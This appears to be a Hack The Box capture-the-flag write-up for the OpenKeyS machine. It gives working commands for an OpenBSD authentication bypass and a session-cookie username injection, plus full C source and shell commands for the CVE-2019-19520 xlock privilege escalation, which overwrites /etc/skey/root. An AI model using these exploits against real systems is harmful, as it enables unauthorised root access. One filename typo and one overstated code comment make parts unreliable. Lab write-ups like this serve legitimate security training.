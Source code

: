 ```yaml
---
icon: /assets/avatar/assets/openkeys.png
image: /assets/avatar/assets/openkeys.png
title: OpenKeys Writeup
author: Valerio Casalino
---
```


# OpenKeyS

As always... `nmap` that thing:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.199 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -p $ports -sC -sV 10.10.10.199
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
...
```

On port 80, we find a login page and no more info:

![image-20201105213128889](/assets/openkeys/image-20201105213128889.png)

So, we can use `gobuster`, or whatever alternative, to find some not indexed folder:

```bash
gobuster dir -w /usr/share/wordlists/discovery/directory-list-2.3-medium.txt -u http://10.10.10.199
```

![image-20201105213056896](/assets/openkeys/image-20201105213056896.png)

And we found `/includes`, which contains 2 files `auth.php` and `auth.php.swp`, which is a `vim` swap file, and, most importantly, readable! Since it is a binary file which showing the last changes made on a file, we can read them all with:

```bash
>>> vim -r auth.php.swp
...
$cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
...
$_SESSION["username"] = $_REQUEST['username'];
...
>>> strings auth.php.swp | head -n 2
b0VIM 8.1
jennifer
```

So, downloading that file, we can investigate on that:

```bash
file check_auth
...
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
...
```

It is a shared object for OpenBSD, and that means that it could be vulnerable to [an authentication bypass](https://securityaffairs.co/wordpress/94755/security/openbsd-security-flaws.html), and fortunately it is! The only thing to do it's to authenticate with `-schallenge:password` through `burp`:

![image-20201105220647715](/assets/openkeys/image-20201105220647715.png)

This means that the authentication worked! But we don't get any ssh key because no user is specified... The user name found in the `.swp` file was `jennifer`, so we can add `;username=jennifer` to the `PHPSESSID` to make `auth.php` parse it.

```
Cookie: PHPSESSID=...;username=jennifer
```

Copy the ssh key and access with user! Now, let's investigate on how to get `root`. Let's check the OpenBSD version:

```bash
uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

On the openBSD website, there is a [list of vulnerabilities](https://www.openbsd.org/errata66.html) for this version, and the [CVE-2019-19520](https://nvd.nist.gov/vuln/detail/CVE-2019-19520) worked as intended! We need to compile this file on the victim machine:

```c
// swrast_dri.c
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>
static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

This will change the `RUID`, `EUID` and `GUID` to 0, so `root`, when called. After we compile the file:

```bash
cc -fpic -shared -s -o swrast_dri.so swrast_dri.c && rm -rf swrast_dri.c
```

We need to set the `LIBGL_DRIVERS_PATH=.` to make `xlock` use our `swarst_dri.so`, instead of the real one. To do so, we just need to run these simple commands:

```bash
env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
echo id -gn | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display 
# Your password is: EGG LARD GROW HOG DRAG LAIN
echo "rm -rf /etc/skey/root ; echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root ; chmod 0600 /etc/skey/root" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66 
env -i TERM=vt220 su -l -a skey
```

![image-20201106002129492](/assets/openkeys/image-20201106002129492.png)

..profit!
